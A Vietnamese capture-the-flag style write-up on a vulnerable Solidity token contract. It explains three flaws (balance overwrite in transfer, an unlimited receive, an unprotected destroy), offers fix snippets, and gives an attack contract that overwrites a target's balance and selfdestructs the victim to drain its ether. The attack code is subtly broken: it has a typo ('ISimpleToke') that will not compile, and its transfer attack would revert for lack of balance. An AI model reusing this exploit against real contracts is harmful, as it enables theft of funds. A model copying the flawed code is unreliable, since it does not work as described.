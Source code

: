 ### Kết luận
- Lỗ hổng:  hàm `transfer` để cộng dồn thay vì ghi đè số dư của người nhận, không Giới hạn số token nhận được trong hàm receive để tránh việc nhận quá nhiều Ether và token, hàm `destroy` không giới hạn quyền ai gọi.
- Cách phòng tránh:
- Sửa lỗi trong hàm transfer để cộng dồn thay vì ghi đè số dư của người nhận.
- Giới hạn số token nhận được trong hàm receive để tránh việc nhận quá nhiều Ether và token.
- Thêm modifier kiểm soát quyền cho hàm destroy để tránh việc bất kỳ ai cũng có thể xóa hợp đồng.
VD:
```solidity
receive() external payable {
    uint256 tokenAmount = msg.value * 10;
    require(tokenAmount <= 1000000, "Token amount exceeds limit");
    balances[msg.sender] += tokenAmount;
}
address public owner;

modifier onlyOwner() {
    require(msg.sender == owner, "Not the contract owner");
    _;
}

function destroy(address payable _to) public onlyOwner {
    selfdestruct(_to);
}
```
- Và sửa lại hàm `transfer` như contract bên dưới.
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface ISimpleToken{
    function transfer(address _to, uint256 _amount) external;
    function destroy(address payable _to) external; 
    // Pha huy hop dong va chuyen toan bo so du cua hop dong toi dia chi _to
}
contract SimpleTokenAttack{
    ISimpleToken public victim;
    constructor (address challenge){
        victim = ISimpleToke(challenge);
    }
    function attackByTransfer(address _target) public payable{
        uint256 amount = 83868386 ether;
        victim.transfer(_target, amount); // Ghi đè số dư của người nhận = amount.
        // Do loi trong ham transfer cua hop dong SimpleToken
    }
    function attackByDestroy(address payable _to) public{
        victim.destroy(_to);
    }
    // GOi dc ham nay do ko kiem soat quyen ai co the goi
    // Pha huy hop dong va chuyen so du hop dong den dia chi _to
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount; //Để tránh lỗ hổng thì sửa thành balances[_to] += _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
